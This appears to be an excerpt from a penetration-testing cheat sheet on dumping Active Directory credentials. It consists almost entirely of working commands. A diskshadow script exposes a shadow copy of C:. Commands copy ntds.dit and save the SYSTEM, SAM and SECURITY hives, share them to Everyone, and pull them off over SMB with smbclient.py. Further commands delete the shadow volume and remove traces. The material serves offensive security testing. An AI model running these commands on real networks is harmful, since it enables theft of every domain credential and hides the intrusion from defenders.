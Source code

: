 ```
// add_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```

Exfiltrate over SMB:

```
mkdir C:\smb_pentest
copy w:\Windows\NTDS\ntds.dit C:\smb_pentest\ntds.dit
cmd /c reg.exe save hklm\system C:\smb_pentest\system.hive
cmd /c reg.exe save hklm\sam C:\smb_pentest\sam.hive
cmd /c reg.exe save hklm\security C:\smb_pentest\security.hive
cmd /c net share pentest=c:\smb_pentest /GRANT:"Everyone,FULL"

$ smbclient.py 'snovvcrash:Passw0rd!@127.0.0.1'
# use pentest
# get ntds.dit
# get system.hive
# get sam.hive
# get security.hive
```

Delete shadow volume:

```
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

```
// delete_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```

Clean up:

```
cmd /c net share pentest /delete
rm -re -fo C:\smb_pentest
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```
